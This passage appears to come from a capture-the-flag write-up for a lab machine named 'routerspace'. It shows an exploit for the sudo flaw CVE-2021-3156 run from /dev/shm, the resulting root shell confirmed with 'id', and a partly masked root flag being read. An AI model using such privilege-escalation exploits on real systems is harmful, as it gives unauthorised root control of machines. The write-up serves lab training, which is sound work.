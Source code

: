 Now running it returns a root shell:

```

paul@routerspace:/dev/shm/CVE-2021-3156$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root),1001(paul) 

```

And I can read `root.txt`:

```

# cat root.txt
0f39f5ce************************

```